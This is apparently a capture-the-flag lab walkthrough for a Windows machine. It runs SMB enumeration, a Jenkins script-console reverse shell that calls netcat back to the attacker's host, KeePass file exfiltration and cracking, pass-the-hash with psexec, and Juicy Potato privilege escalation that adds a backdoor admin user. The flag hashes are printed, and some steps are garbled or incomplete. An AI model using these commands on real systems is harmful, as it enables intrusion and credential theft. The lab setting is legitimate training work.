 
Crackmapexec, smbmap, Web Fuzzing, Jenkins, Pass-the-Hash Attack, KeePass, Juicy Potato Privilege Escalation, Alternative Data Streams.
keepass2john, john (John the Ripper)



**Concepts:**
- **Port 445 (SMB):**
  - Port 445 is a network protocol port commonly used for SMB (Server Message Block) communication. It's essential for file and printer sharing on Windows networks.

**Commands:**
1. **Using crackmapexec to Gather Information:**
   - Use `crackmapexec` to gather information about the target machine via SMB.
   ```bash
   crackmapexec smb 10.10.10.63
   ```

2. **Listing Shared Resources with smbmap:**
   - Attempt to list shared network resources on the machine using `smbmap`. An 'Authentication error' indicates the need for valid credentials.
   ```bash
   smbmap -H 10.10.10.63 -u 'null'
   ```

3. **Web Fuzzing with wfuzz:**
   - As SMB is exposed, explore web services on port 50000 using `wfuzz`.
   ```bash
   wfuzz -c --hc=404 -t 200 -w /wordlist -u http://10.10.10.63:50000/FUZZ
   ```

4. **Discovering Jenkins and Scripting:**
   - Identify an exposed Jenkins instance, known to be vulnerable due to enabled script consoles.
   - Exploit it to gain access.
   ```bash
   # On your machine
   smbserver smbFolder $(pwd) -smb2support
   # On the victim machine (execute in Jenkins script console)
   println "\\\\10.10.14.2\\smbFolder\\nc64.exe -e cmd 10.10.14.2 1234".execute().text
   # Back on your machine
   rlwrap nc -nlvp 1234
   ```

5. **Privilege Escalation - Finding a KeePass File:**
   - While examining user directories, find a .kdbx file, likely from KeePass.
   - Transfer it to your machine using your shared folder.
   ```bash
   # Victim machine
   copy CEH.kdbx \\10.10.14.8\smbFolder\CEH.kdbx
   ```

6. **Cracking KeePass Password:**
   - Use `keepass2john` to extract the password hash from the KeePass file.
   - Crack the hash using John the Ripper with a wordlist.
   ```bash
   keepass2john CEH.kdbx > hash
   john --wordlist=../../../wordlist/rockyou.txt hash
   ```

7. **Pass-the-Hash Attack:**
   - Verify if the cracked hash belongs to the 'Administrator' using `crackmapexec`. If it returns 'Pwn3d!,' it's valid.
   ```bash
   crackmapexec smb 10.10.10.63 -u 'Administrator' -H ':hash' -d jeeves.local
   ```

8. **Using psexec for Access:**
   - Exploit the pass the hash vulnerability with `psexec` to gain access as the Administrator.
   ```bash
   psexec WORKGROUP/Administrator@10.10.10.63 -hashes :hash
   ```

9. **Alternative Method - Privilege Check:**
   - Check the user's privileges using `whoami /priv`. If the user has 'SeImpersonatePrivilege,' consider using Juicy Potato.

10. **Juicy Potato Privilege Escalation:**
    - Download Juicy Potato and transfer it to the victim machine using your shared folder. https://github.com/ohpe/juicy-potato/releases/tag/v0.1
    ```bash
    # On your machine
    smbserver smbFolder $(pwd) -smb2support
    copy \\10.10.14.29\smbFolder\juicypotato.exe jp.exe
    ```
    - Execute Juicy Potato to create a new user with administrator privileges.
    ```bash
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user kvzlx Skinheadoi1216@ /add" -l 1337
    JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators" -l 1337
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337
    ```
    - Confirm the user's validity with `crackmapexec`.
    ```bash
    crackmapexec smb 10.10.10.63 -u 'kvzlx' -H 'Skinheadoi1216@'
    ```
11. **Access with the New User:**
    - Use `psexec` to access the system with the new user.
    ```bash
    psexec WORKGROUP/kvzlx@10.10.10.63 cmd.exe
    ```

12. **Root Flag Retrieval:**
    - To obtain the root flag, explore alternative data streams using the `dir /r /s` command.
    - View the flag with `more < hm.txt:root.txt`.

**Explanation of "Alternative Data Streams":**
In Windows, alternative data streams are a feature that allows files to have additional data attached to them beyond their main content. This feature is often used for legitimate purposes, but it can also be exploited by attackers to hide information or execute malicious code.

user e3232272596fb47950d59c4cf1e7066a
root afbc5bd4b615a60648cec41c6ac92530


```bash
*Video*

If you are compromising a Windows machine Check the user's privileges using "whoami /priv". 
If the user has 'SeimpersonatePrivilege', consider using Juicy Potato.  
  
- Download Juicy Potato and transfer it to the victim machine using your shared folder.  
  With Impacket-smbserver, we create a network-level shared resource identified by the name you choose, which is synchronized with the current working directory and supports SMB version 2

   impacket-smbserver smbJuicy $(pwd) -smb2support  
  
[#On](https://www.linkedin.com/feed/hashtag/?keywords=on&highlightedUpdateUrns=urn%3Ali%3Aactivity%3A7104799306024382465) 
Now, on the victim machine, we copy Juicy Potato using the previously created shared resource.
   copy \\your_ip\smbJuicy\JuicyPotato.exe JuicyPotato.exe  
  
- Execute Juicy Potato to create a new user with administrator privileges.  
- Utilize Juicy Potato with the "-t *" parameter to employ "CreateProcessWithTokenW and CreateProcessAsUser."
	- Employ the "-p" parameter to specify that you want to yudalaz "cmd" to execute a command and control the desaierd command.
- Use the "-a" parameter to pass the command you wish to execute as an argument.
- In this case, the desired command is "net user" to create a new user on the system.
  
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user kvzlx potato1234@ /add" -l 1337  

- ANext, add the new user to the local administrators group on the machine using "net localgroup.
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators kvzlx /add" -l 1337

- Now, modify the "LocalAccountTokenFilterPolicy" registry entry.
  JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337  

- Finally, ensure everything works by creating a network-level shared resource and granting full privileges to all users in the administrators group over this shared resource that you've created.
  
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337  
  
- Confirm the user's validity with `crackmapexec`.  
  
   crackmapexec smb  10.10.10.63-u 'kvzlx' -H 'potato1234@'  
  
- Use `psexec` to access the system with the new user.  
   psexec WORKGROUP/kvzlx@10.10.10.63 cmd.exe

```